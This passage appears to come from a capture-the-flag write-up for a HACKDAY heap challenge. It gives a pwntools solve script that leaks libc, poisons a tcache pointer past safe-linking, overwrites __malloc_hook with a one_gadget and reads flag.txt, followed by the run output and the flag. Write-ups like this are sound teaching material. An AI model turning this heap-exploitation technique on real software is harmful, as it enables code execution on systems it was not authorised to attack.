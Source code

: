 ```py
alloc(1, 128, b"A" * 126)

first_slot, libc_leak = leak_stack(slots_offset, libc_addr_offset)
log.info(f"slots @ {hex(first_slot)}")

libc.address = libc_leak - (libc.symbols["__libc_start_main"] + 242)

log.info(f"libc @ {hex(libc.address)}")
log.info(f"__malloc_hook @ {hex(libc.symbols['__malloc_hook'])}")

alloc(2, 128, b"B" * 126)
free(2)
free(1)
edit(1, p64(safe_linking(first_slot, libc.symbols["__malloc_hook"]))) # put the address of __malloc_hook in the fd pointer of slot 1's freed chunk
alloc(3, 128, b"C" * 126) # return slot 1 chunk
alloc(4, 128, p64(libc.address + one_gadget)) # return a pointer to __malloc_hook instead of one to the slot 2 because we overwrote it, we write the one_gadget in here
alloc(5, 128, "osef :DD", only_trigger_malloc=True) # we trigger malloc to call the hook

r.sendline(b"cat flag.txt")
log.success(r.recvline().decode())
```

Result:

```
$ python3 solve.py
[*] '/home/elf/Downloads/chall_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[*] '/home/elf/Downloads/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to sie2op7ohko.hackday.fr on port 1337: Done
[*] slots @ 0x565433e812c0
[*] libc @ 0x7f02d89fd000
[*] __malloc_hook @ 0x7f02d8be0b90
[+] HACKDAY{s4f3_l1nk1ng_c4nt_r3515t_t0_l34k5}
[*] Closed connection to sie2op7ohko.hackday.fr port 1337
```

Flag: `HACKDAY{s4f3_l1nk1ng_c4nt_r3515t_t0_l34k5}`